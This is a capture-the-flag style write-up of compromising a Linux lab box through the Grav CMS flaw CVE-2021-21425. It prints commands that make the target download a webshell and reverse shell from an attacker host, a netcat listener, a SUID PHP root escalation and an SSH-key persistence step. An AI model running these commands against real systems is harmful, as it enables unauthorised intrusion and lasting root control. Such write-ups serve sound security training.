

<link rel="stylesheet" href="{{ '/assets/css/obsidian-dividers.css' | relative_url }}">

## Summary

<div class="divider divider-info">
    <span class="divider-title">TL;DR</span>
    <span class="divider-content">Astronaut is an Easy Linux box featuring an outdated Grav CMS installation vulnerable to unauthenticated RCE (CVE-2021-21425). The attack chain involves exploiting blind RCE to upload a webshell, obtaining a reverse shell as www-data, and escalating privileges through a SUID PHP binary that allows command execution as root.</span>
</div>

**Key Vulnerabilities:**
- Grav CMS unauthenticated RCE (CVE-2021-21425)
- SUID PHP binary allowing privilege escalation
- Misconfigured file permissions enabling webshell upload

---

## Enumeration

### Nmap Scan

**Initial scan:**
```bash
nmap -vv -T5 -p- 192.168.x.x

nmap -vv -T5 -p22,80 -sC -sV 192.168.x.x
```

**Results:**

| Port | Service | TCP/UDP |
| ---- | ------- | ------- |
| 22   | SSH     | TCP     |
| 80   | HTTP    | TCP     |

**Key findings:**
- Only SSH and HTTP services exposed
- Web server requires further enumeration

---

### Web Enumeration

**Step 1:** Accessing the index page reveals directory indexing is enabled


All content appears to be under the `grav-admin` directory.

**Step 2:** Navigating to the Grav admin directory confirms this is a **Grav CMS** installation


<div class="divider divider-info">
    <span class="divider-title">Grav CMS</span>
    <span class="divider-content">Grav is an open-source flat-file CMS that doesn't require a database. It's built with PHP and uses Markdown for content. Like many CMS platforms, older versions contain known vulnerabilities that can lead to remote code execution.</span>
</div>

**Step 3:** Research and version identification

- Attempted to identify version through default files on GitHub with no success
- Located admin login panel at `/grav-admin/admin`
- Tested basic credential combinations - all failed
- Researched Grav CMS exploits and CVEs

---

## Initial Foothold

### Vulnerability Discovery

**Vulnerability:** CVE-2021-21425 - Grav CMS Unauthenticated RCE

<div class="divider divider-warning">
    <span class="divider-title">CVE-2021-21425</span>
    <span class="divider-content">An unauthenticated remote code execution vulnerability in Grav CMS that allows attackers to execute arbitrary commands through scheduled tasks without requiring authentication. The exploit leverages the task scheduler functionality to achieve blind RCE.</span>
</div>

**Exploit:** [CVE-2021-21425 PoC](https://github.com/CsEnox/CVE-2021-21425)

---

### Exploitation

**Step 1:** Test the exploit
```bash
python3 exploit.py -t http://192.168.x.x/grav-admin -c "id"
```

The exploit successfully executes commands, but:
- Blind RCE (no direct output)
- Commands execute slowly due to scheduled task mechanism
- Standard reverse shell payloads fail

**Step 2:** Upload a webshell

Since direct reverse shells aren't working, upload a PHP webshell first:

```bash
# Host webshell locally
python3 -m http.server 8000

# Use exploit to download webshell
python3 exploit.py -t http://192.168.x.x/grav-admin -c "wget http://10.10.14.5:8000/shell.php"
```

**Step 3:** Access the webshell

Navigate to `http://192.168.x.x/shell.php`


<div class="divider divider-root">
    <span class="divider-title">Webshell Access</span>
    <span class="divider-content">Successfully obtained webshell in the web root directory</span>
</div>

**Step 4:** Upgrade to reverse shell

Simple reverse shell commands still fail from the webshell. Upload a full PHP reverse shell:

```bash
# Upload PHP reverse shell
wget http://10.10.14.5:8000/php-reverse-shell.php -O revshell.php

# Start listener
nc -lvnp 4444

# Trigger reverse shell by accessing revshell.php
```


<div class="divider divider-root">
    <span class="divider-title">Shell Access</span>
    <span class="divider-content">Successfully obtained reverse shell as www-data</span>
</div>

---

## Privilege Escalation

### Credential Hunting

**Step 1:** Search for Grav CMS credentials
```bash
# Grav stores user data in YAML files
find /var/www -name "*.yaml" -type f 2>/dev/null
cat /var/www/html/grav-admin/user/accounts/admin.yaml
```

Found admin hash but unable to crack it. Decided to continue with automated enumeration.

---

### LinPEAS Enumeration

**Step 2:** Run LinPEAS
```bash
# Upload LinPEAS
wget http://10.10.14.5:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

**Critical finding:** SUID binaries


<div class="divider divider-warning">
    <span class="divider-title">SUID PHP Binary</span>
    <span class="divider-content">A PHP binary with SUID bit set and owned by root. Programming language binaries often provide capabilities for privilege escalation through interactive shells or command execution features, as documented in GTFOBins.</span>
</div>

---

### SUID Exploitation

**Step 3:** Check GTFOBins for PHP SUID exploitation


GTFOBins shows PHP can spawn privileged shells when SUID is set.

**Step 4:** Exploit the SUID PHP binary

The standard GTFOBins command format didn't work initially:
```bash
# This didn't work
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```

Modified to use bash instead:
```bash
# This worked!
/usr/bin/php7.4 -r "pcntl_exec('/bin/bash', ['-p']);"
```


<div class="divider divider-root">
    <span class="divider-title">Privileged Shell</span>
    <span class="divider-content">Successfully obtained shell with root privileges (EUID=0)</span>
</div>

**Note:** The shell runs as www-data with effective UID of root due to SUID, providing full root access.

---

### Persistent Access

**Step 5:** Add SSH key for stable root access
```bash
# Generate SSH key locally (if needed)
ssh-keygen -t rsa -b 4096

# Add public key to root's authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2E..." >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
chmod 700 /root/.ssh
```


**Step 6:** SSH as root
```bash
ssh -i id_rsa root@192.168.x.x
```

<div class="divider divider-root">
    <span class="divider-title">Root Access</span>
    <span class="divider-content">Successfully obtained persistent root access via SSH</span>
</div>

---

## Post-Exploitation

**Flags:**
- User: Located in `/home/*/local.txt`
- Root: Located in `/root/proof.txt`

**Attack Chain Summary:**
1. Directory indexing reveals Grav CMS installation
2. Grav CMS identified as vulnerable to CVE-2021-21425
3. Blind RCE exploited to upload PHP webshell
4. Webshell used to upload full PHP reverse shell
5. Reverse shell obtained as www-data
6. LinPEAS reveals SUID PHP binary
7. PHP SUID binary exploited for privilege escalation
8. SSH key added for persistent root access

**Key Lessons:**
- Directory indexing can reveal sensitive application information
- Blind RCE often requires multi-stage exploitation (webshell → reverse shell)
- SUID binaries on programming language interpreters are critical vulnerabilities
- GTFOBins is essential for SUID exploitation
- Modifying standard exploitation techniques (sh → bash) may be necessary

---

## References

- [CVE-2021-21425 Exploit - GitHub](https://github.com/CsEnox/CVE-2021-21425)
- [Grav CMS - GitHub](https://github.com/getgrav/grav)
- [GTFOBins - PHP](https://gtfobins.github.io/gtfobins/php/)
- [LinPEAS - GitHub](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [CVE-2021-21425 Details - NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-21425)

---

## Timeline



---

**Pwned on:** 29/10/2025

**Difficulty Rating:** ⭐⭐ (Easy with known CVE)  
**Fun Factor:** ⭐⭐⭐ (Interesting multi-stage exploitation)
